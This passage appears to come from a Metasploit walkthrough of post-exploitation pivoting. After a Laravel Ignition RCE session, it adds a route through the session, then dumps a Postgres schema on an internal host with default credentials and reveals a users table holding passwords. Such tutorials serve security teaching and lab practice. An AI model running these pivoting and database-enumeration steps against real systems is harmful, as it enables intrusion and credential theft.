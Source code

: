 ```text
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.17.0.1/32 -1
[*] Route added
```

Print the routing table to verify the configuration settings:

```text
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.17.0.1         255.255.255.255    Session 2
   172.28.101.51      255.255.255.255    Session 2

[*] There are currently no IPv6 routes defined.
```

With the previously discovered database credentials and the routing table configured, we can start to run Metasploit modules that target `Postgres`. Starting with a schema dump, followed by running queries to select information out of the database:

```text
msf6 exploit(multi/php/ignition_laravel_debug_rce) > use auxiliary/scanner/postgres/postgres_schemadump 
msf6 auxiliary(scanner/postgres/postgres_schemadump) > run postgres://postgres:postgres@172.28.101.51/postgres

[*] 172.28.101.51:5432 - Found databases: postgres, template1, template0. Ignoring template1, template0.
[+] Postgres SQL Server Schema 
 Host: 172.28.101.51 
 Port: 5432 
 ====================

---
- DBName: postgres
  Tables:
  - TableName: users_id_seq
    Columns:
    - ColumnName: last_value
      ColumnType: int8
      ColumnLength: '8'
    - ColumnName: log_cnt
      ColumnType: int8
      ColumnLength: '8'
    - ColumnName: is_called
      ColumnType: bool
      ColumnLength: '1'
  - TableName: users
    Columns:
    - ColumnName: id
      ColumnType: int4
      ColumnLength: '4'
    - ColumnName: username
      ColumnType: varchar
      ColumnLength: "-1"
    - ColumnName: password
      ColumnType: varchar
      ColumnLength: "-1"
    - ColumnName: created_at
      ColumnType: timestamp
      ColumnLength: '8'
```